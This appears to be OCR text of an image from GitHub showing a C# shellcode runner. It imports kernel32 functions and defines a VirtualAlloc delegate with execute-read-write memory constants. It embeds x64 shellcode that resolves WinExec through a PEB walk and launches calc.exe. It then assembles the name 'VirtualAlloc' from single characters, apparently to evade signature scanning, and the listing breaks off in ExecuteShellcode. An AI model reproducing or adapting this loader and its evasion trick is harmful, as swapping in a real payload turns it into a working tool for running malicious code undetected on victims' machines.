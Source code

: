 ```csharp
    [DllImport("kernel32.dll")]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32.dll")]
    static extern IntPtr GetModuleHandle(string lpModuleName);

    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    delegate IntPtr VirtualAllocDelegate(
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds);

    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;
    const uint INFINITE = 0xFFFFFFFF;

    static readonly byte[] shellcode = new byte[]
    {
0x48,0x83,0xec,0x28,0x48,0x83,0xe4,0xf0,0x48,0x31,
0xc9,0x65,0x48,0x8b,0x41,0x60,0x48,0x8b,0x40,0x18,
0x48,0x8b,0x70,0x10,0x48,0x8b,0x36,0x48,0x8b,0x36,
0x48,0x8b,0x5e,0x30,0x49,0x89,0xd8,0x8b,0x5b,0x3c,
0x4c,0x01,0xc3,0x48,0x31,0xc9,0x66,0x81,0xc1,0xff,
0x88,0x48,0xc1,0xe9,0x08,0x8b,0x14,0x0b,0x4c,0x01,
0xc2,0x44,0x8b,0x52,0x14,0x4d,0x31,0xdb,0x44,0x8b,
0x5a,0x20,0x4d,0x01,0xc3,0x4c,0x89,0xd1,0x48,0xb8,
0x64,0x64,0x72,0x65,0x73,0x73,0x90,0x90,0x48,0xc1,
0xe0,0x10,0x48,0xc1,0xe8,0x10,0x50,0x48,0xb8,0x47,
0x65,0x74,0x50,0x72,0x6f,0x63,0x41,0x50,0x48,0x89,
0xe0,0x67,0xe3,0x20,0x31,0xdb,0x41,0x8b,0x1c,0x8b,
0x4c,0x01,0xc3,0x48,0xff,0xc9,0x4c,0x8b,0x08,0x4c,
0x39,0x0b,0x75,0xe9,0x44,0x8b,0x48,0x08,0x44,0x39,
0x4b,0x08,0x74,0x03,0x75,0xdd,0xcc,0x51,0x41,0x5f,
0x49,0xff,0xc7,0x4d,0x31,0xdb,0x44,0x8b,0x5a,0x1c,
0x4d,0x01,0xc3,0x43,0x8b,0x04,0xbb,0x4c,0x01,0xc0,
0x50,0x41,0x5f,0x4d,0x89,0xfc,0x4c,0x89,0xc7,0x4c,
0x89,0xc1,0x4d,0x89,0xe6,0x48,0x89,0xf9,0xb8,0x61,
0x64,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,0x10,0x50,
0x48,0xb8,0x45,0x78,0x69,0x74,0x54,0x68,0x72,0x65,
0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,
0xd6,0x48,0x83,0xc4,0x30,0x49,0x89,0xc5,0x4d,0x89,
0xe6,0x48,0x89,0xf9,0x48,0xb8,0x57,0x69,0x6e,0x45,
0x78,0x65,0x63,0x00,0x50,0x48,0x89,0xe2,0x48,0x83,
0xec,0x30,0x41,0xff,0xd6,0x48,0x83,0xc4,0x30,0x49,
0x89,0xc6,0x48,0x83,0xc4,0x08,0xb8,0x00,0x00,0x00,
0x00,0x50,0x48,0xb8,0x63,0x61,0x6c,0x63,0x2e,0x65,
0x78,0x65,0x50,0x48,0x89,0xe1,0xba,0x01,0x00,0x00,
0x00,0x48,0x83,0xec,0x30,0x41,0xff,0xd6,0x31,0xc9,
0x41,0xff,0xd5
    };

    public static void ExecuteShellcode()
    {

        string[] chars2 = { "V", "i", "r", "t", "u", "a", "l", "A", "l", "l", "o", "c" };
        string funcName2 = string.Concat(chars2);  // "VirtualAlloc"
```